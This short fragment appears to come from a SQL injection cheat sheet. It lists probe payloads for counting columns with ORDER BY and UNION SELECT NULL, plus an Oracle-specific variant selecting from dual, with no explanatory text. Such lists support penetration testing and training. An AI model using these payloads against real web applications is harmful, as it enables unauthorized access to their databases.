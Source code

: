 ```sql
' ORDER BY 1--
' UNION SELECT NULL,NULL,NULL--
```
## ORACLE
```sql
' UNION SELECT 'NULL','NULL' FROM+dual-- -
```
